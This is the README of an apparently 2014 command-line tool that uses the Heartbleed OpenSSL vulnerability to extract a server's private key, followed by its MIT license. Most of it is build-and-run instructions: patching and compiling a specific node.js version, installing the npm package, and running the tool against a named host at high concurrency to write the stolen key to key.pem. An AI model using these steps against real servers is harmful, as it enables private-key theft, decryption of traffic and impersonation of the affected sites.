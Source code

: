 # Heartbleed

Extracting server private key using [Heartbleed][0] OpenSSL vulnerability.

## How to use

You will need patched node.js version in order to be able to run this script.
The instructions of compiling it are following:

```bash
git clone git://github.com/indutny/heartbleed
git clone git://github.com/joyent/node -b v0.10.26 node-hb
cd node-hb
git apply ../heartbleed/node-v0.10.26.patch
./configure --prefix=$HOME/.node/0.10.26-hb
make -j24 install
ls ./node
```

Then you could just install this script using npm:

```bash
export PATH="$HOME/.node/0.10.26-hb/bin:$PATH"
npm install -g heartbleed.js
```

And run it:

```bash
$ heartbleed
Options:
  --host         [required]
  --port         [default: 443]
  --concurrency  [default: 1]

Missing required arguments: host

$ heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

#### LICENSE

This software is licensed under the MIT License.

Copyright Fedor Indutny, 2014.

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
"Software"), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to permit
persons to whom the Software is furnished to do so, subject to the
following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN
NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR
OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE
USE OR OTHER DEALINGS IN THE SOFTWARE.

[0]: http://heartbleed.com/

